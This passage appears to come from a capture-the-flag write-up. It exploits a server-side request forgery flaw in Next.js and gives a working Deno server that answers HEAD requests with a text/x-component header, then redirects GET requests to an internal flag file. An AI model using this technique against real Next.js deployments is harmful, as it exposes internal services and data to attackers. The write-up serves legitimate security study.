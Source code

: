 We need to exfiltrate data, so let's follow the remainder of the blog post:

-   Set up a server that takes requests on any path.
-   On any HEAD request, return a 200 with Content-Type: `text/x-component`.
-   On a GET request, return a 302 to our intended SSRF target.
-   When NextJS fetches from our server, it will satisfy the preflight check on our HEAD request but will follow the redirect on GET, giving us a full read SSRF!

Putting it all together, we modify the supplied PoC.


```ts
Deno.serve((request: Request) => {
    console.log(
        "Request received: " +
            JSON.stringify({
                url: request.url,
                method: request.method,
                headers: Array.from(request.headers.entries()),
            })
    );
    // Head - 'Content-Type', 'text/x-component');
    if (request.method === "HEAD") {
        return new Response(null, {
            headers: {
                "Content-Type": "text/x-component",
            },
        });
    }
    // Get - redirect to flag
    if (request.method === "GET") {
        return new Response(null, {
            status: 302,
            headers: {
                Location: "http://backend/flag.txt",
            },
        });
    }
});
```


So, we will respond to the initial `HEAD` request with a `200 OK` of content-type `text/x-component`, which triggers a `GET` request to our server. At this point, we issue a `302` redirect to the flag.txt file on the `backend`.

That's it - let's serve the PoC using `deno`.


```bash
deno run --allow-net --allow-read main.ts
Listening on http://localhost:8000/
```


Reissue the request in burp and ensure the requests line up as expected in our server log.
